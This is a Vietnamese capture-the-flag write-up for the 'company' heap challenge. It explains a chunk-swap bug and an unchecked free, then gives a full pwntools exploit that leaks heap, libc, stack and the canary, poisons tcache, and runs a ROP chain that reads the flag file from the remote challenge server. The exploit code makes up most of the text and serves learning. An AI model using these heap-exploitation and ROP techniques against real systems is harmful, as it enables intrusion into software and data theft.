 # COMPANY
- Ta thấy khi tạo 1 chunk và free ngay, nó có thể lỗi do free 1 chunk không hợp lệ (do chưa tạo feedback)
```c
free((void *)employee[v2]);
free(*(void **)(employee[v2] + 0x40LL));
```

- Ta để ý một chút lúc malloc và free như sau:
```c
// malloc
buf = (char *)malloc(0x50uLL); //register
buf = malloc(0x50uLL); //feedback
//free
    free((void *)employee[v2]);
    free(*(void **)(employee[v2] + 0x40LL));
```
- Ta thấy có lỗi LIFO
- Khi này sẽ tận dụng LIFO để đổi chỗ 2 chunk
- Khi đã đổi chỗ, ta sẽ tận dụng `free(*(void **)(employee[v2] + 0x40LL));` không kiểm tra xem feedback đã được tạo chưa và free đi một fake chunk.
- Fake chunk này ta sẽ chọn mảng `name` khi được hỏi tên gì.
- Ta có payload sau
```python
sa(b"name? ",  p64(0x0) + p64(0x61)))
register(b"0", b"0"*0x18, b"HR\0", "123")
feedback(b"0", b"0", b"a" * 0x40 + p64(0x404060+0x10))
fire("0")
register(b"1", b"1" * 0x18, b"HR\0", "123")
fire(b"1")
```

- Khi mình thử free chunk ở địa chỉ `0x..68` thì báo lỗi `free(): invalid pointer`
![image](https://github.com/wan-hyhty/CTFs_competition/assets/111769169/3ad32d3a-a0fc-475f-b5d6-36bc270eb5a2)
- Mình đoán là do địa chỉ như thế nào đó mà báo lỗi
- Đã có fake chunk trong danh sách
![image](https://github.com/wan-hyhty/CTFs_competition/assets/111769169/f32801df-642e-46cb-9ae1-9d73991bd6d2)

- Khi này ta cố gắng leak heap 
```python
register(b"1", b"1"*0x10 + b"HR\0\0\0", b"HR\0", "123")
feedback(b"1", b"1", b"b" * 0x40 + p64(0x004040a8))
fire(b"1")
# 
register(b"1", b"1" *0x18, b"HR\0", b"1")
view(b"1")
p.recvuntil(b"Feedback: ")
heap_leak = u32(p.recvline(keepends = False).ljust(4, b"\0"))
info("heap leak: " + hex(heap_leak))
```

![image](https://github.com/wan-hyhty/CTFs_competition/assets/111769169/2ee33e20-4d23-4870-8e99-a6fbfc9f3e94)

- Tiếp theo ta 

```python
feedback(b"1", b"1", b"b" * 0x30)
fire(b"1")
```

- Leak libc, tương tự như leak heap

```python
register(b"1", b"1"*0x10 + b"HR\0\0\0", b"HR\0", "123")
feedback(b"1", b"1", b"b" * 0x40 + p64(0x403fa0))
fire(b"1")
register(b"1", b"1" *0x18, b"HR\0", b"1")
view(b"1")
p.recvuntil(b"Feedback: ")
libc_leak = u64(p.recvline(keepends = False).ljust(8, b"\0"))
info("libc leak: " + hex(libc_leak))
libc.address = libc_leak - libc.sym['puts']
info("libc base: " + hex(libc.address))
feedback(b"1", b"1", b"b" * 0x8)
fire(b"1")
```

- Trong vùng nhớ này ta có 1 địa chỉ trỏ đến địa chỉ stack
![image](https://github.com/wan-hyhty/CTFs_competition/assets/111769169/0024aa5b-e20e-4eaf-a52f-ee0895ff2bb5)
![image](https://github.com/wan-hyhty/CTFs_competition/assets/111769169/8685ae88-44c5-4577-bfbd-980caf8ee254)
- Phần còn lại ảo quá nên ta sẽ từ từ ngâm cứu sau
# Full script
```python
#!/usr/bin/env python
from pwn import *

context.arch = "amd64"
context.encoding = "latin"
context.log_level = "DEBUG"
context.terminal = ["tmux", "splitw", "-h"]
context.binary = elf = ELF("./company")
libc = elf.libc

sla = lambda x, y: p.sendlineafter(x, y)
sa  = lambda x, y: p.sendafter(x, y)
rl  = lambda: p.recvline()
sl  = lambda x: p.sendline(x)
c   = lambda x: str(x).encode()

gdbscript = """
b *iconv+197
c
"""
def register(idx, name, position, salary, no=False, no1=False):
    p.sendlineafter(b'>>', b'1')
    p.sendlineafter(b':', str(idx).encode())
    if no:
        p.sendafter(b':', name)
    else:
        p.sendlineafter(b':', name)
    if no1:
        p.sendafter(b':', position)
    else:
        p.sendlineafter(b':', position)
    p.sendlineafter(b':', str(salary).encode())

def fire(idx):
    p.sendlineafter(b'>>', b'2')
    p.sendlineafter(b':', str(idx).encode())

def feedback(hr, idx, feedback):
    p.sendlineafter(b'>>', b'3')
    p.sendlineafter(b'?', str(hr).encode())
    p.sendlineafter(b'?', str(idx).encode())
    p.sendlineafter(b':', feedback)

def view_feedback(idx):
    p.sendlineafter(b'>>', b'4')
    p.sendlineafter(b'?', str(idx).encode())
    p.recvuntil(b'Feedback: ')
    return p.recvline()[:-1]

def read(addr):
    register(1, b"D", b"HR\x00", 0x1339)
    feedback(1, 1, b"E"*0x40 + p64(addr))
    fire(1)
    register(1, b"B", b"HR\x00", 0)
    leak = view_feedback(1)
    print(leak)
    leak = u64(leak[:8].ljust(8,b'\x00'))
    feedback(1, 1, b"E"*0x40 + p64(0))
    fire(1)
    return leak

def return_arb_ptr(addr):
    register(2, b"A", b"HR\x00", 0x1337)
    feedback(2, 2, b"A"*0x40 + p64(addr))
    fire(2)
    register(2, b"B", b"HR\x00", 0x1337)
    fire(2) # attempts to call free(addr)


p = remote("company.chal.crewc.tf", 17001)
# p = elf.process()
# p = gdb.debug(elf.file.name, gdbscript=gdbscript)

p.sendlineafter(b'What is your name? ', p64(0) + p64(0x61) + p64(0))

# JoshL solved most of it tho :)
register(0, b"A", b"HR\x00", 0x1337)
feedback(0, 0, b"A"*0x40 + p64(0x00404060+0x10))
fire(0)
register(1, b"B", b"HR\x00", 0x1337)
fire(1) # attempts to call free(0x00404060+0x10)
register(0, b"C"*0x10 + b"HR\x00", b"HR\x00", 0) # Got HR now


heap_leak = read(0x004040a8)
info("Heap leak %s", hex(heap_leak))
puts_libc = read(0x403fa0)
info("Libc leak %s", hex(puts_libc))

libc.address = puts_libc - libc.symbols['puts']
rop = ROP(libc)
info("Libc base %s", hex(libc.address))

stack_leak = read(libc.address + 0x7fc7955fe320-0x007fc795400000)
info("Stack leak %s", hex(stack_leak))
ret_ptr = stack_leak +0x007ffc15e06398-0x7ffc15e064f8
info("Return pointer %s", hex(ret_ptr))
stack_cookie = (read(ret_ptr - 0x10+1) << 0x8) & 0xffffffffffffffff
info("Stack cookie %s", hex(stack_cookie))

path = b"./" + b'\x00'

register(3, b"A"*0x18, b"A"*0x18, 0x41)
register(4, b"B"*0x18, b"B", 0x61)
register(5, b"C"*0x18, b"C"*0x18, 0x43)
register(6, b"D"*0x18, b"D"*0x18, 0x43)
register(7, path + (b"E"*(0x18-len(path))), b"E"*0x18, 0x43)

fire(3)
fire(6)

return_arb_ptr(heap_leak+0x20f21d0-0x20f2170-0x10)
info("Fake pointer at %s", hex(heap_leak+0x20f21d0-0x20f2170-0x10))
heap_ptr = heap_leak+0x20f21d0-0x20f2170
target = ret_ptr-0x8
register(8, p64(0)+p64(0x60)+p64(target ^ (heap_ptr >> 12)) + b"A"*8, b"F"*0x18, 0x1337133713371337, no=True)

register(3, b"A"*0x18, b"A"*0x18, 0x41)
register(6, b"/flag\x00\x00\x00" + p64(rop.rdi[0])+p64(ret_ptr)+p64(libc.symbols['gets']), p64(rop.rdi[0])+p64(ret_ptr)+p64(libc.symbols['gets']), 0x41, no=True)

flag_str = heap_leak + 0x1d69f50 - 0x1d69dd0
syscall = rop.find_gadget(['syscall', 'ret'])[0]

payload = b"A"*0x30

rop.read(0, libc.bss(0x100), 0x30)
payload += b''.join([
    rop.chain(),

    p64(rop.rdi[0]),
    p64(libc.bss(0x100)),
    p64(rop.rsi[0]),
    p64(int(constants.O_RDONLY)),
    p64(rop.rdx[0]),
    p64(0),
    p64(rop.rax[0]),
    p64(2),
    p64(syscall),

    p64(rop.rdi[0]),
    p64(3),
    p64(rop.rsi[0]),
    p64(libc.bss(0x500)),
    p64(rop.rdx[0]),
    p64(0x500),
    p64(rop.rax[0]),
    p64(0),
    p64(syscall),

    p64(rop.rdi[0]),
    p64(1),
    p64(rop.rsi[0]),
    p64(libc.bss(0x500)),
    p64(rop.rdx[0]),
    p64(0x100),
    p64(rop.rax[0]),
    p64(1),
    p64(syscall),
])
p.sendline(payload)
p.sendline(b"./flag_you_found_this_my_treasure_leaked.txt\x00")
p.interactive()


```